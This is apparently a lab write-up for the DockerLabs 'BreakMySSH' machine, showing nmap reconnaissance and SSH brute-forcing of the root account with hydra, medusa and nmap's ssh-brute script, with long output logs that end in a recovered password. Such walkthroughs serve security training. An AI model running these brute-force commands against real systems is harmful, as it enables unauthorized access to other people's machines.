








# 🐳 DockerLabs - BreakMySSH


# 📌 General information


| Machine    | Difficulty | Author               | Target IP  | Category     |
| ---------- | ---------- | -------------------- | ---------- | ------------ |
| BreakMySSH | Very easy  | El Pingüino de Mario | 172.17.0.2 | Service: ssh |




# 🎯 Objective

Identify exposed services, detect vulnerabilities, and gain access to the target system.


# 🛠️ Tools

- ***ping***: Connectivity and range check
- ***nmap***: Port and services scanning, recognition and alternative ssh brute force attack
- ***hydra***: ssh brute force attacks
- ***medusa***: ssh brute force attacks


# 🔌 Ports

| Port | Service |
| ---- | ------- |
| 22   | ssh     |


# 🔭 Connectivity with ***ping***

```bash
ping -c4 172.17.0.2
```

Result:



# 🩻 Scanning with ***nmap***

First, search for accessible hosts:
```bash
nmap -sn 172.17.0.0/16
```

Result:


Scanning host:
```bash
nmap -p- -Pn -sS -sV -sC -O 172.17.0.2
```

Result:


Scanning vulnerabilities with nmap:
```bash
nmap --script vuln -p 22 172.17.0.2
```

Result:


No vulnerabilities found


# 💣 Brute Force attack


## Hydra

Using ***hydra*** for a brute force attack using the ***rockyou.txt*** passwords dictionary through ssh
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt -t 4 -v ssh://172.17.0.2
```

Result:



## Medusa

Using ***medusa*** for a brute force attack using the ***rockyou.txt*** passwords dictionary through ssh
```bash
medusa -h 172.17.0.2 -u root -P /usr/share/wordlists/rockyou.txt -M ssh
```

Result:
```bash
$ medusa -h 172.17.0.2 -u root -P /usr/share/wordlists/rockyou.txt -M ssh  
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>  
  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1234  
56 (1 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1234  
5 (2 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1234  
56789 (3 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: pass  
word (4 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: ilov  
eyou (5 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: prin  
cess (6 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1234  
567 (7 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: rock  
you (8 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1234  
5678 (9 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: abc1  
23 (10 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: nico  
le (11 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: dani  
el (12 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: baby  
girl (13 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: monk  
ey (14 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: love  
ly (15 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: jess  
ica (16 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 6543  
21 (17 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: mich  
ael (18 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: ashl  
ey (19 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: qwer  
ty (20 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1111  
11 (21 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: ilov  
eu (22 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 0000  
00 (23 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: mich  
elle (24 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: tigg  
er (25 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: suns  
hine (26 of 14344391 complete)  
2026-10-04 22:01:46 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: choc  
olate (27 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: pass  
word1 (28 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: socc  
er (29 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: anth  
ony (30 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: frie  
nds (31 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: butt  
erfly (32 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: purp  
le (33 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: ange  
l (34 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: jord  
an (35 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: live  
rpool (36 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: just  
in (37 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: love  
me (38 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: fuck  
you (39 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1231  
23 (40 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: foot  
ball (41 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: secr  
et (42 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: andr  
ea (43 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: carl  
os (44 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: jenn  
ifer (45 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: josh  
ua (46 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: bubb  
les (47 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1234  
567890 (48 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: supe  
rman (49 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: hann  
ah (50 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: aman  
da (51 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: love  
you (52 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: pret  
ty (53 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: bask  
etball (54 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: andr  
ew (55 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: ange  
ls (56 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: twee  
ty (57 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: flow  
er (58 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: play  
boy (59 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: hell  
o (60 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: eliz  
abeth (61 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: hott  
ie (62 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: tink  
erbell (63 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: char  
lie (64 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: sama  
ntha (65 of 14344391 complete)  
2026-10-04 22:01:47 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: barb  
ie (66 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: chel  
sea (67 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: love  
rs (68 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: team  
o (69 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: jasm  
ine (70 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: bran  
don (71 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 6666  
66 (72 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: shad  
ow (73 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: meli  
ssa (74 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: emin  
em (75 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: matt  
hew (76 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: robe  
rt (77 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: dani  
elle (78 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: fore  
ver (79 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: fami  
ly (80 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: jona  
than (81 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 9876  
54321 (82 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: comp  
uter (83 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: what  
ever (84 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: drag  
on (85 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: vane  
ssa (86 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: cook  
ie (87 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: naru  
to (88 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: summ  
er (89 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: swee  
ty (90 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: spon  
gebob (91 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: jose  
ph (92 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: juni  
or (93 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: soft  
ball (94 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: tayl  
or (95 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: yell  
ow (96 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: dani  
ela (97 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: laur  
en (98 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: mick  
ey (99 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: prin  
cesa (100 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: alex  
andra (101 of 14344391 complete)  
2026-10-04 22:01:48 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: alex  
is (102 of 14344391 complete)  
2026-10-04 22:01:49 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: jesu  
s (103 of 14344391 complete)  
2026-10-04 22:01:49 ACCOUNT CHECK: [ssh] Host: 172.17.0.2 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: estr  
ella (104 of 14344391 complete)  
2026-10-04 22:01:49 ACCOUNT FOUND: [ssh] Host: 172.17.0.2 User: root Password: estrella [SUCCESS]
```


## nmap

In this case, ***nmap*** is able to run a brute force attack trough ssh
```bash
$ echo "root" > user.txt
$ nmap -p 22 --script ssh-brute --script-args userdb=user.txt,passdb=/usr/share/wordlists/rockyou.txt 172.17.0.2
```

Result:
```bash
$ nmap -p 22 --script ssh-brute --script-args userdb=user.txt,passdb=/usr/share/wordlists/rockyou.txt 17  
2.17.0.2    
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-04 22:09 -0600  
NSE: [ssh-brute] Trying username/password pair: root:root  
NSE: [ssh-brute] Trying username/password pair: root:123456  
NSE: [ssh-brute] Trying username/password pair: root:12345  
NSE: [ssh-brute] Trying username/password pair: root:123456789  
NSE: [ssh-brute] Trying username/password pair: root:password  
NSE: [ssh-brute] Trying username/password pair: root:iloveyou  
NSE: [ssh-brute] Trying username/password pair: root:princess  
NSE: [ssh-brute] Trying username/password pair: root:1234567  
NSE: [ssh-brute] Trying username/password pair: root:rockyou  
NSE: [ssh-brute] Trying username/password pair: root:12345678  
NSE: [ssh-brute] Trying username/password pair: root:abc123  
NSE: [ssh-brute] Trying username/password pair: root:nicole  
NSE: [ssh-brute] Trying username/password pair: root:daniel  
NSE: [ssh-brute] Trying username/password pair: root:babygirl  
NSE: [ssh-brute] Trying username/password pair: root:monkey  
NSE: [ssh-brute] Trying username/password pair: root:lovely  
NSE: [ssh-brute] Trying username/password pair: root:jessica  
NSE: [ssh-brute] Trying username/password pair: root:654321  
NSE: [ssh-brute] Trying username/password pair: root:michael  
NSE: [ssh-brute] Trying username/password pair: root:ashley  
NSE: [ssh-brute] Trying username/password pair: root:qwerty  
NSE: [ssh-brute] Trying username/password pair: root:111111  
NSE: [ssh-brute] Trying username/password pair: root:iloveu  
NSE: [ssh-brute] Trying username/password pair: root:000000  
NSE: [ssh-brute] Trying username/password pair: root:michelle  
NSE: [ssh-brute] Trying username/password pair: root:tigger  
NSE: [ssh-brute] Trying username/password pair: root:sunshine  
NSE: [ssh-brute] Trying username/password pair: root:chocolate  
NSE: [ssh-brute] Trying username/password pair: root:password1  
NSE: [ssh-brute] Trying username/password pair: root:soccer  
NSE: [ssh-brute] Trying username/password pair: root:anthony  
NSE: [ssh-brute] Trying username/password pair: root:friends  
NSE: [ssh-brute] Trying username/password pair: root:butterfly  
NSE: [ssh-brute] Trying username/password pair: root:purple  
NSE: [ssh-brute] Trying username/password pair: root:angel  
NSE: [ssh-brute] Trying username/password pair: root:jordan  
NSE: [ssh-brute] Trying username/password pair: root:liverpool  
NSE: [ssh-brute] Trying username/password pair: root:justin  
NSE: [ssh-brute] Trying username/password pair: root:loveme  
NSE: [ssh-brute] Trying username/password pair: root:fuckyou  
NSE: [ssh-brute] Trying username/password pair: root:123123  
NSE: [ssh-brute] Trying username/password pair: root:football  
NSE: [ssh-brute] Trying username/password pair: root:secret  
NSE: [ssh-brute] Trying username/password pair: root:andrea  
NSE: [ssh-brute] Trying username/password pair: root:carlos  
NSE: [ssh-brute] Trying username/password pair: root:jennifer  
NSE: [ssh-brute] Trying username/password pair: root:joshua  
NSE: [ssh-brute] Trying username/password pair: root:bubbles  
NSE: [ssh-brute] Trying username/password pair: root:1234567890  
NSE: [ssh-brute] Trying username/password pair: root:superman  
NSE: [ssh-brute] Trying username/password pair: root:hannah  
NSE: [ssh-brute] Trying username/password pair: root:amanda  
NSE: [ssh-brute] Trying username/password pair: root:loveyou  
NSE: [ssh-brute] Trying username/password pair: root:pretty  
NSE: [ssh-brute] Trying username/password pair: root:basketball  
NSE: [ssh-brute] Trying username/password pair: root:andrew  
NSE: [ssh-brute] Trying username/password pair: root:angels  
NSE: [ssh-brute] Trying username/password pair: root:tweety  
NSE: [ssh-brute] Trying username/password pair: root:flower  
NSE: [ssh-brute] Trying username/password pair: root:playboy  
NSE: [ssh-brute] Trying username/password pair: root:hello  
